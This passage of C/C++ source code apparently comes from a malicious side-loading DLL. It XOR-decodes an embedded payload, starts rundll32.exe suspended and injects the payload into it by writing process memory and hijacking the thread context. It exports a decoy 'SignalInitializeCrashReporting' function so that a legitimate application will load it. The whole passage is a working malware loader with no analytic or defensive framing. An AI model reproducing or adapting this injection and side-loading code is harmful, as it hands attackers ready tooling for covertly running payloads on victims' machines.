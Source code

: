 ```c_cpp
    return -1;
  }
  myXor(payload, payload_len, szPath[strlen(szPath) - 3] - '0'); // szPath[strlen(szPath) - 3] - '0' ->20
    char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
  memcpy((void*)v7A, payload, payload_len);
  struct _PROCESS_INFORMATION ProcessInformation;
  struct _STARTUPINFOA StartupInfo;
  void* v24;
  CONTEXT Context;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 68;
  BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo,
    &ProcessInformation);
  if (result)
  {
    Context.ContextFlags = 65539;
    GetThreadContext(ProcessInformation.hThread, &Context);
    v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
    WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
    // 32 位使用 Context.Eip = (DWORD_PTR)v24;
    Context.Rip = (DWORD_PTR)v24;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    result = CloseHandle(ProcessInformation.hProcess);
  }
  TerminateProcess(GetCurrentProcess(), 0);
  return 0;
}
extern "C" __declspec(dllexport) int SignalInitializeCrashReporting() {
  return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

```
